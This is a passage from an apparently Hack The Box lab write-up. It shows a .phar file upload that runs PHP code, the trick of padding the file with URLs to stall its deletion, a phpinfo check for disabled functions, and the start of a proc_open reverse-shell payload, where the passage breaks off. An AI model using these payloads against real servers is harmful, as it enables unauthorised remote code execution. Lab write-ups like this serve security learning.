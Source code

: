 ```php
98 }
```
In the  line _97_ the file I uploaded are deleted after sending a request using the function `isitup`. So every time I send a file the upload it, made a request and after the request return the file got deleted! Analising this function I found on line _44_ that the request get a 30 seconds timeout. So to bypass this and I get time to execute the payload I need to input first on the file a URL that will not return anything like `https://google.com` because the HTB VPN isn't connect to the internet.

So now we are good to upload the revshell right? No, not yet. I uploaded the __PentestMonkey__ php revShell but it don't return any connections back. So I start testing if the `.phar` is really executing the php code, so I upload a `<?php echo 'HELLO word!!!!!'; ?>` and it worked fine.

![Hello word](./executing_code.png)
> _Figure 6_: **'Hello word' on the page.**

So if it is executing the php code why our reverse shell don't work? Maybe some functions are disable? Let's check this with the `phpinfo` page.
> payload.phar:
```php
https://google.com
https://google.com
https://google.com

<?php phpinfo(); ?>
```

![Disable functions](./disable_funtions.png)
> _Figure 7_: **List of all disable functions.**

Reading all functions that are disable, the most intesting one that ins't on the list is `proc_open` that let execute remote code on the victim machine. I made the follow payload to finally get a reverse shell:

> revshell.phar
```php
http://google.com
http://google.com
http://google.com
http://google.com
http://google.com

<?php

$descriptorspec = array(
    0 => array("pipe", "r"),  // stdin
    1 => array("pipe", "w"),  // stdout -> we use this
    2 => array("pipe", "w")   // stderr 
);

```